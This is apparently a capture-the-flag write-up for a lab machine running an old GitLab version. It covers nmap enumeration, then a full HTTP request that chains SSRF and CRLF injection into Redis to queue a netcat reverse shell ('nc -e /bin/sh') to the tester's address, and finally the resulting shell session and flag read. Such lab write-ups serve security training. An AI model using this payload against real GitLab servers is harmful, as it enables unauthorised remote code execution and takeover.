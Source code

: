 # Ready
Nmap enumeration:
```
➜  ~ nmap -p- 10.10.10.220
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-14 12:57 CET
Nmap scan report for 10.10.10.220
Host is up (0.044s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen

Nmap done: 1 IP address (1 host up) scanned in 19.11 seconds
➜  ~ nmap -p22,5080 -sV 10.10.10.220 
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-14 12:58 CET
Nmap scan report for 10.10.10.220
Host is up (0.034s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
5080/tcp open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.14 seconds
```

Browsing to the `http://10.10.10.220:5080/` displays a gitlab page.
After creating a user and logging in we can browse to `http://10.10.10.220:5080/help`
Here it says that the site is running `GitLab Community Edition 11.4.7`.
Looking at the changelogs for [11.4.8](https://gitlab.com/gitlab-org/gitlab-foss/-/blob/master/changelogs/archive-11.md)
shows us a lot of security improvements. A lot of them are `xxs` which isn't all that
interesting to us. However a know exploit exists by combining the mentioned `SSRF` and `CRLF` vulnerbilities.
Using the exploit decscribed [HERE](https://github.com/jas502n/gitlab-SSRF-redis-RCE).
We set up a netcat listener on port 1234 and send the payload:
```
POST /projects HTTP/1.1
Host: 10.10.10.220:5080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.220:5080/projects/new
Content-Type: application/x-www-form-urlencoded
Content-Length: 784
Origin: http://10.10.10.220:5080
Connection: close
Cookie: _gitlab_session=050b6281095ed74de6409216d93be742
Upgrade-Insecure-Requests: 1

utf8=%E2%9C%93&authenticity_token=VD3rPVQgGj7m3sXD1g5Oswb9KpCKy05bXaDaSTsGtQXi6RWA9el0XbKOEQogyoBd1A1qUIw0RcqKuoCIv%2BxlLw%3D%3D&project%5Bimport_url%5D=git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379%2Ftest%2Fssrftt.git
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/sh 10.10.14.56 1234 \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
 exec
&project%5Bci_cd_only%5D=false&project%5Bname%5D=ssrftt&project%5Bnamespace_id%5D=7&project%5Bpath%5D=ssrftt&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```
This gains us a shell on the targeted system and we're able to read the user flag:
```
➜  ~ nc -lnvp 1234
Connection from 10.10.10.220:34922
python3 -c 'import pty; pty.spawn("/bin/bash")'
git@gitlab:~/gitlab-rails/working$ cd /home
cd /home
git@gitlab:/home$ ls -la
ls -la
total 12
drwxr-xr-x 1 root root 4096 Dec  2 10:45 .
drwxr-xr-x 1 root root 4096 Dec 14 12:12 ..
drwxr-xr-x 2 dude dude 4096 Dec  7 16:58 dude
git@gitlab:/home$ cd dude
cd dude
git@gitlab:/home/dude$ ls -la
ls -la
total 24
drwxr-xr-x 2 dude dude 4096 Dec  7 16:58 .
drwxr-xr-x 1 root root 4096 Dec  2 10:45 ..
lrwxrwxrwx 1 root root    9 Dec  7 16:58 .bash_history -> /dev/null
-rw-r--r-- 1 dude dude  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 dude dude 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 dude dude  655 May 16  2017 .profile
-r--r----- 1 dude git    33 Dec  2 10:46 user.txt
git@gitlab:/home/dude$ cat user.txt
cat user.txt
e1e***************************82
```
